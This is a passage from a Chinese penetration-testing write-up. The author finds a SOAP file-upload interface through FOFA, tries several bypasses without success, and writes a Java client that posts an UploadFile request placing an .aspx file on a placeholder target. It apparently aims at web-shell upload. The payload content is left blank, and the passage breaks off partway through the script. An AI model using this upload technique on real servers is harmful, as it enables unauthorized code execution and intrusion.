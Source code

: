 终于，在一个星期后的一天继续信息收集时，在FOFA上发现了一个 Service Web Service 接口

![]()

点开了其中一个发现给出了接口的调用代码，而且还有文件上传，XML上传的接口：

![]()

  

调用接口试试：

![]()

接口调用失败，又试了很多次，还是失败，换安全的文件、后缀、00截断都没有成功，因为不确定具体是因为什么原因所以写了个java脚本测试一下具体是什么原因：

    
    
    import java.io.*;  
    import java.net.*;  
      
    public class FileUploader {  
        public static void main(String[] args) throws Exception {  
            String url = "http://target.com/Service.asmx";  
            URL obj = new URL(url);  
            HttpURLConnection con = (HttpURLConnection) obj.openConnection();  
      
            // 设置请求方法和请求头  
            con.setRequestMethod("POST");  
            con.setRequestProperty("Content-Type", "text/xml; charset=utf-8");  
            con.setRequestProperty("SOAPAction", "http://tempuri.org/UploadFile");  
      
            // 构造SOAP消息体  
            String fs = ""; // TODO: 将文件内容转换为base64编码字符串  
            String path = "test.aspx";  
            String fileName = "test.aspx";  
            String soapXml =  
                    "<soap:Envelope xmlns:soap='http://schemas.xmlsoap.org/soap/envelope/' " +  
                            "xmlns:xsi='http://www.w3.org/2001/XMLSchema-instance' " +  
                            "xmlns:xsd='http://www.w3.org/2001/XMLSchema'>" +  
                            "<soap:Body>" +  
                            "<UploadFile xmlns='http://tempuri.org/'>" +  
                            "<fs>" + fs + "</fs>" +  
                            "<path>" + path + "</path>" +  
                            "<fileName>" + fileName + "</fileName>" +  
                            "</UploadFile>" +  
                            "</soap:Body>" +  
                            "</soap:Envelope>";  
      
            // 发送SOAP消息体  
            con.setDoOutput(true);  
            OutputStream os = con.getOutputStream();  
            os.write(soapXml.getBytes());  
      
            // 读取响应  
            int responseCode = con.getResponseCode();  
            System.out.println("Response Code : " + responseCode);  
      